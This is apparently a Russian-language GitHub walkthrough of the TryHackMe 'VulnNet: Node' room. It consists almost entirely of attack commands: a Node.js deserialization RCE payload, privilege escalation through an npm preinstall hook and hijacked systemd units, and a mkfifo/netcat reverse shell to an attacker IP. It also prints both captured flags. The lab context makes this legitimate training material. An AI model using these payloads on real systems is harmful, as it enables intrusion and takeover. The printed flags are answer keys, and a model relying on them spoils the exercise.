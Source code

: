 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [VulnNet: Node](https://tryhackme.com/r/room/vulnnetnode) 

Всего 1 заданиe:
## Задание 1
VulnNet Entertainment переместили свою инфраструктуру и теперь они уверены, что больше никаких нарушений не 
повторится. Вам поручено доказать обратное и проникнуть в их сеть.

Уровень сложности: легкий
Веб-язык: JavaScript
Это снова попытка воссоздать более реалистичный сценарий, но с технологиями, упакованными в одну машину. Удачи!

Значок создан Freepik с сайта www.flaticon.com

### Ответьте на вопросы ниже
Что такое флаг пользователя? (user.txt)
```commandline
nmap -sC -sV <IP>
gobuster dir -u http://<IP>:8080/ -w /usr/share/wordlists/dirb/common.txt 
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
python nodejsshell.py <my_own_IP> 4444
echo -n '{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode10,118,97,114,[REDACTED],84,41,59,10))}()"}' | base64
nc -nvlp 4444
sudo -l
mkdir ~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
id
python3 -c "import pty;pty.spawn('/bin/bash')"
cd /home/serv-manage/
cat user.txt
```
```commandline
THM{064640a2f880ce9ed7a54886f1bde821}
```

Что такое корневой флаг? (root.txt)
```commandline
find / -type f -name vulnnet-auto.timer -exec ls -l {} + 2>/dev/null
sudo -l
cd /etc/systemd/system
cat vulnnet-auto.timer
cat vulnnet-job.service
sudo -u root /bin/systemctl stop vulnnet-auto.timer

cat > /etc/systemd/system/vulnnet-auto.timer << EOF 
[Unit]
Description=Run VulnNet utilities every 30 min
 
[Timer]
OnBootSec=0min
OnCalendar=*:0/1
Unit=vulnnet-job.service
 
[Install]
WantedBy=basic.target
EOF


cat > /etc/systemd/system/vulnnet-job.service << EOF
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer
 
[Service]
Type=forking
ExecStart=/bin/sh -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 5555 >/tmp/f'
 
[Install]
WantedBy=multi-user.target
EOF


sudo -u root /bin/systemctl daemon-reload
sudo -u root /bin/systemctl start vulnnet-auto.timer
nc -nlvp 5555
cat root.txt
```
```commandline
THM{abea728f211b105a608a720a37adabf9}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)